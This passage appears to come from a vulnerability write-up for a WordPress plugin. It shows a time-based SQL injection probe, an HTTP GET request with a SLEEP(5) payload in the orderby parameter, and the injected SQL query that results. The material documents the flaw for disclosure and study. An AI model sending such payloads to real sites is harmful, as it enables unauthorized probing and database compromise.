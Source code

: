 ![Chart](chart.png "Execution Flow")

## Exploit

### Detect SQLi

Send a **GET request** containing an SQLi payload.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

The resulting SQL becomes:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
                OFFSET 0
```

![time response](time_resp.png "Time-based SQLi Response")
